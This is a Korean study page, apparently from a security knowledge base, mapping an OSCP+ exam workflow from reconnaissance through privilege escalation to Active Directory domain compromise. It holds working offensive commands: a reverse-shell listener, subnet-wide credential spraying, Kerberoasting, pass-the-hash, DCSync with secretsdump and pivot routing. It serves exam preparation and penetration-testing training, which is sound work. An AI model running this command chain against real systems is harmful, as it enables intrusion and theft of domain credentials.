

# 시험 흐름 { #exam-workflow }

<div class="dfir-meta" markdown>
**적용 범위:** 시험 전체, 모든 머신 · **최종 수정:** 2026-11-03
</div>

!!! abstract "한 문장 요약"
    시험 전체를 하나의 파이프라인으로 봅니다. standalone은 정찰 → 초기 침투 → 셸 안정화 → 권한 상승, AD 세트는 주어진 계정(assumed breach)에서 정보 수집 → roast / spray → 피벗 → 횡적 이동 → 도메인 장악. 단계마다 무엇을 돌리고, 어디까지 하면 "끝"인지, 자세한 내용은 어느 페이지에 있는지 정리했습니다.

!!! warning "규칙부터"
    자주 쓰는 도구 중 여러 개가 시험에서 **금지되거나 제한됩니다**(sqlmap, Nessus류 스캐너, Burp Pro, 스푸핑/포이즈닝, AI 챗봇, 한 대를 넘는 Metasploit). 각 페이지에 빨간 박스로 표시했고, [시험 구조 › 금지 도구](exam-format.md#restricted)에 요약돼 있어요. 시험 전에는 꼭 공식 **OSCP+ Exam Guide** 를 다시 읽으세요 — 규칙은 바뀝니다.

## 파이프라인 한눈에 보기 { #pipeline }



| 단계 | 목표 / "끝"의 기준 | 주요 도구 | 페이지 |
|---|---|---|---|
| 1. 정찰 | 모든 TCP 포트 + 주요 UDP 포트 파악, 버전 기록 | nmap, nxc, smbclient, enum4linux-ng, snmpwalk | [정찰과 정보 수집](recon-enumeration.md) |
| 2. 초기 침투 | 아무 사용자로든 명령 실행 | ffuf / feroxbuster / gobuster, Burp CE, nikto, searchsploit, hydra | [웹과 초기 침투](web-initial-access.md) |
| 3. 안정화 | 대화형 TTY / 리버스 셸, 도구 업로드 완료 | msfvenom, nc / rlwrap, python http.server, smbserver | [셸과 파일 전송](shells-file-transfer.md) |
| 4a. Linux 권한 상승 | root 셸 | LinPEAS, pspy, GTFOBins | [Linux 권한 상승](privesc-linux.md) |
| 4b. Windows 권한 상승 | SYSTEM / Administrator | WinPEAS, PrintSpoofer / GodPotato, LOLBAS | [Windows 권한 상승](privesc-windows.md) |
| 5. AD — assumed breach | 크리덴셜이 어디서 통하는지 정리, 공격 경로 선택 | NetExec, BloodHound CE, Kerbrute, Impacket | [Active Directory](active-directory.md) |
| 크랙 | 해시 → 비밀번호 | hashcat, john | [패스워드 공격](password-attacks.md) |
| 6. 피벗 | Kali에서 내부 서브넷으로 라우팅 가능 | ligolo-ng, chisel, ssh | [피벗팅](pivoting.md) |
| 7. 횡적 이동 | 다음 호스트의 셸 | evil-winrm, psexec / wmiexec, mssqlclient | [Active Directory › 횡적 이동](active-directory.md#lateral-movement) |
| 8. 도메인 장악 | DC의 `proof.txt` | secretsdump(DCSync), mimikatz, Rubeus | [Active Directory › 도메인 장악](active-directory.md#domain-compromise) |

## 시계가 돌기 전에 { #setup }

작업 폴더에 환경 파일을 하나 두면 아래 명령을 그대로 복사해 쓸 수 있어요.

```bash
# ~/exam/env.sh  —  tmux 창마다 source
export KALI=192.168.45.5          # 내 tun0 IP
export IP=192.168.120.10          # 지금 보는 standalone
export DC=10.10.120.100           # AD 세트
export DOMAIN=oscp.exam
export USER_='eric.wallows'       # assumed breach 계정 (USER 는 셸이 이미 씀)
export PASS='EricLikesRunning800'
```

```bash
mkdir -p ~/exam/{ms01,ms02,dc01,sa1,sa2,sa3}/{nmap,loot,exploit,screens}
ip -4 addr show tun0      # KALI 값 확인
```

- 머신마다 tmux 창 하나, 리스너용 패널 하나.
- 시작 전에 도구를 한 폴더에 모아 두세요: `ligolo-ng` proxy + agent(Linux / Windows), `chisel`, `linpeas.sh`, `winPEASx64.exe`, `pspy64`, `PrintSpoofer64.exe`, `GodPotato-NET4.exe`, `SharpHound.exe`, `Rubeus.exe`, `mimikatz.exe`, `nc.exe` — `python3 -m http.server` 로 바로 서빙할 수 있게.

## 1단계 — 정찰 { #stage-recon }

모든 대상에 전체 TCP 스캔을 백그라운드로 돌려 두고, 먼저 나온 포트부터 시작합니다.

```bash
sudo nmap -p- --min-rate 2000 -Pn -oN nmap/all.txt $IP
ports=$(grep -oP '^\d+(?=/tcp\s+open)' nmap/all.txt | paste -sd,)
sudo nmap -sC -sV -Pn -p$ports -oN nmap/svc.txt $IP
sudo nmap -sU --top-ports 25 -Pn -oN nmap/udp.txt $IP
```

**볼 것:** 버전, 인증서 / SMB 배너의 호스트 이름(→ `/etc/hosts`), NSE 출력의 익명 접근 표시. **다음:** 포트마다 따로 조사 → [정찰과 정보 수집](recon-enumeration.md).

## 2단계 — 초기 침투 { #stage-initial-access }

싼 것부터: 익명 / 기본 크리덴셜 → 취약한 버전(`searchsploit`) → 웹 콘텐츠 탐색 → 앱 로직(SQLi, LFI, 업로드) → 브루트포스는 실제 사용자 이름과 이유가 있을 때만.

**끝의 기준:** 명령 실행 — 웹 셸이라도. **다음:** 진짜 리버스 셸로 바꾸기(3단계). 자세히 → [웹과 초기 침투](web-initial-access.md).

!!! danger "시험 규칙"
    sqlmap 금지, Nessus / OpenVAS / nuclei류 대량 스캔 금지, Burp Pro 금지. 대신 Burp Community Repeater로 수동 SQLi → [수동 SQLi](web-initial-access.md#sqli).

## 3단계 — 셸 안정화 { #stage-stabilise }

```bash
rlwrap -cAr nc -lvnp 443                           # 리스너 (Windows 셸)
python3 -c 'import pty; pty.spawn("/bin/bash")'   # Linux: 그다음 Ctrl-Z
stty raw -echo; fg; export TERM=xterm
```

**끝의 기준:** 방향키가 되고, Ctrl-C에 셸이 안 죽고, Kali에서 파일을 받아올 수 있음. `local.txt` 는 **이 대화형 셸에서** `ip addr` / `ipconfig` 와 같은 화면에 스크린샷. 자세히 → [셸과 파일 전송](shells-file-transfer.md).

## 4단계 — 권한 상승 { #stage-privesc }

=== "Linux"

    `sudo -l` → SUID / capabilities → cron(`pspy64`) → 파일 속 크리덴셜 → LinPEAS → 커널은 마지막.
    자세히 → [Linux 권한 상승](privesc-linux.md).

=== "Windows"

    `whoami /priv`(SeImpersonate → potato) → WinPEAS → 서비스 / 예약 작업 → 저장된 크리덴셜 → AlwaysInstallElevated.
    자세히 → [Windows 권한 상승](privesc-windows.md).

**끝의 기준:** `proof.txt` 를 `whoami`, IP와 함께 한 스크린샷에.

## 5단계 — AD 세트: assumed breach { #stage-ad }

도메인 사용자 하나를 받습니다. 순서대로:

```bash
echo "$DC dc01.$DOMAIN dc01 $DOMAIN" | sudo tee -a /etc/hosts
nxc smb 10.10.120.0/24 -u "$USER_" -p "$PASS"                 # 어디서 통하나?
nxc winrm 10.10.120.0/24 -u "$USER_" -p "$PASS"
nxc smb $DC -u "$USER_" -p "$PASS" --pass-pol --users --shares
bloodhound-ce-python -u "$USER_" -p "$PASS" -d $DOMAIN -ns $DC -c All --zip
impacket-GetUserSPNs "$DOMAIN/$USER_:$PASS" -dc-ip $DC -request -outputfile kerb.hash
impacket-GetNPUsers "$DOMAIN/$USER_:$PASS" -dc-ip $DC -request -outputfile asrep.hash
```

!!! note "외부 호스트"
    대부분의 세트에서 첫 머신(MS01)만 Kali에서 닿고, 내부 호스트는 그 뒤에 있습니다. assumed breach 계정은 MS01에만 로그인되는 경우가 많아서, 첫 일은 보통 *MS01 로컬 권한 상승* → 루팅 → 피벗이에요.

**볼 것:** NetExec 출력의 `Pwn3d!`(= 로컬 관리자), lockout threshold, kerberoastable / AS-REP 사용자, BloodHound의 outbound ACL. **다음:** 크랙 → [패스워드 공격](password-attacks.md), 그리고 새 크리덴셜은 어디서나 시도. 자세히 → [Active Directory](active-directory.md).

!!! danger "시험 규칙"
    Responder / mitm6 / ARP 포이즈닝(스푸핑) 금지. NetNTLMv2 해시가 필요하면 대상이 *내* SMB 서버로 접속하게 만드세요 → [스푸핑 없는 coercion](active-directory.md#coercion).

## 6단계 — 피벗 { #stage-pivot }

MS01에서 두 번째 NIC(`ipconfig /all`)가 보이면 바로 ligolo-ng agent를 띄우고 내부 서브넷을 라우팅합니다.

```text
ligolo-ng » session
ligolo-ng » interface_add_route --name ligolo --route 10.10.120.0/24
ligolo-ng » tunnel_start --tun ligolo
```

**끝의 기준:** Kali에서 `nxc smb 10.10.120.0/24` 로 내부 호스트가 보임. 자세히 → [피벗팅](pivoting.md).

## 7단계 — 횡적 이동 { #stage-lateral }

먼저 MS01을 루팅(`secretsdump`, mimikatz, PowerShell 히스토리, 파일)하고 → 새 해시 / 비밀번호를 내부 서브넷 전체에 뿌립니다.

```bash
nxc smb 10.10.120.0/24 -u administrator -H <NT> --local-auth
nxc winrm 10.10.120.0/24 -u svc_sql -p 'Found_Pass1' 
evil-winrm -i 10.10.120.141 -u svc_sql -p 'Found_Pass1'
```

자세히 → [Active Directory › 횡적 이동](active-directory.md#lateral-movement).

## 8단계 — 도메인 장악 { #stage-domain }

Domain Admin 크리덴셜이나 복제 권한이 있는 사용자를 쥐었다면:

```bash
impacket-secretsdump "$DOMAIN/da_user:Pass@dc01.$DOMAIN" -just-dc-user Administrator
impacket-psexec -hashes :<NT> "$DOMAIN/Administrator@dc01.$DOMAIN"
```

DC에서 `proof.txt` 를 `whoami`, `ipconfig` 와 함께 스크린샷. 자세히 → [Active Directory › 도메인 장악](active-directory.md#domain-compromise).

## 시간 배분 { #time-budget }

| 구간 | 권장 시간 | 막히면 |
|---|---|---|
| 워밍업 standalone | 2–3시간 | 메모하고 AD로 |
| AD 세트 | 6–8시간 | *새 정보 없이* 2시간쯤 지나면 standalone으로 전환 |
| 나머지 standalone | 남은 시간 | 60–90분마다 돌아가며 |
| 리포트 자료 점검 | 종료 1시간 전 | 셸이 살아 있을 때 빠진 스크린샷 다시 찍기 |

[시험 당일 전략](exam-day.md)과 [시험 구조 › 점수 전략](exam-format.md#scoring-strategy)도 보세요.

## 관련 페이지 { #related-pages }

- [방법론과 습관](methodology.md) · [리포트](reporting.md) · [시험 구조와 점수](exam-format.md)
- 같은 사슬의 방어자 관점: [공격 기법](../../adversary/index.md) · [Windows 포렌식](../../windows/index.md) · [네트워크](../../network/index.md)
- [Red Team: 초기 침투](../../redteam/initial-access.md) · [Red Team: Post-Exploitation](../../redteam/post-exploitation/index.md)

## 참고 자료 { #references }

- [OffSec — OSCP+ Exam Guide](https://help.offsec.com/hc/en-us/articles/360040165632)
- [HackTricks](https://book.hacktricks.xyz/)
